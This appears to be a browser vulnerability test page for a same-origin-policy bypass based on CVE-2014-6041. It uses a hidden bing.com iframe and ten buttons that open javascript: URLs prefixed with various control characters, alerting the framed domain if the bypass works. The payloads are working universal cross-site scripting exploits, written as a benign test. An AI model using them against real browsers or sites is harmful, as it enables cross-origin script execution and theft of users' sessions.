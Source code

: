 ```yaml
---
layout: default
title: SOP Bypass - Testcase 8
permalink: /sop/new/8
---
```


# SOP Bypass - Testcase 8

Modified version of CVE-2014-6041 for testing other control characters

<iframe height="0" width="0" name="CVE-2014-6041" src="https://web.archive.org/web/20180831120258if_/https://www.bing.com/" style="display:none;" data-ruffle-polyfilled=""></iframe>

<input type="button" id="btn_test" class="test" value="Run Test Case 1" onclick="window.open('\u0000javascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 2" onclick="window.open('\u000ajavascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 3" onclick="window.open('\u000bjavascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 4" onclick="window.open('\u000cjavascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 5" onclick="window.open('\u000djavascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 6" onclick="window.open('\u0020javascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 6" onclick="window.open('\u002Cjavascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 7" onclick="window.open('\u003Bjavascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 8" onclick="window.open('\u0009javascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 9" onclick="window.open('\u002Bjavascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 10" onclick="window.open('\u0028javascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">

**Note:**
If page loads popup and displays an alert box "Accessed Property of bing.com, your browser is vulnerable to SOP bypass."
